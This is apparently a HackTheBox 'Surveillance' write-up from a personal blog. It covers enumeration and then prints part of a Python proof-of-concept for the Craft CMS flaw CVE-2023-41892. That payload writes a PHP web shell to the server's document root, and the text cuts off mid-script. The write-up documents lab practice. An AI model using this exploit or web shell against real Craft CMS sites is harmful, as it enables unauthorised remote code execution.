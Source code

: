 ```yaml
---
layout: post
title: "Surveillance-Linux-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/d2ddffcb2eced6a4d5486dc99d440d1a.webp
---
```


# Surveillance

HackTheBox: Medium

<aside>
💡 Surveillance is a medium linux machine with a monitor service

</aside>

## 1: Enumeration
<br/><br/>
- Check the active connection
<br/><br/>
![Untitled]({{ '/assets/images/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf_Untitled.png' | relative_url }})
<br/><br/>
- Scanning ports
<br/><br/>
![Untitled]({{ '/assets/images/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf_Untitled_1.png' | relative_url }})
<br/><br/>
We can see there’s a web services running in 80 port and ssh service in 22 
<br/><br/>
## 2: Looking around
<br/><br/>
- There is a web service powered by Craft CMS in the main page. CVE-2023-41892 is a vulnerability for this technology, we need to execute a POC for this vulnerability, but after a lot of time fixing parameters made by machine configurations we find the right version of the exploit.
<br/><br/>
```bash
import requests
import re
import sys

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36"
}

def writePayloadToTempFile(documentRoot):
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:"}}}'
    }

    files = {
        "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
        <image>
        <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;"/>
        <write filename="info:DOCUMENTROOT/cpresources/shell.php">
        </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain")
```